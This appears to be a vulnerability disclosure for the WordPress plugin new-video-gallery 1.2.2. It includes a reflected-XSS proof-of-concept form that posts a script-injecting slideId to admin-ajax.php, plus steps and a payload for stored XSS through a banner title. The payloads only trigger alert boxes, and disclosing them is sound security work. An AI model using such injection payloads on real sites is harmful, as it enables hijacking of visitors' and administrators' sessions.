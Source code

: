 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail

[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.

![1](1.png)

- The PoC:
```php
<html>
<body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

---

The other like a stored-xss Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.

![3](3.png)

Then press Publish And You will get a `Shortcode`.

![4](4.png)

Press the `Shortcode` in your page.
 
![5](5.png)

The xss will execute in the front page.

![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
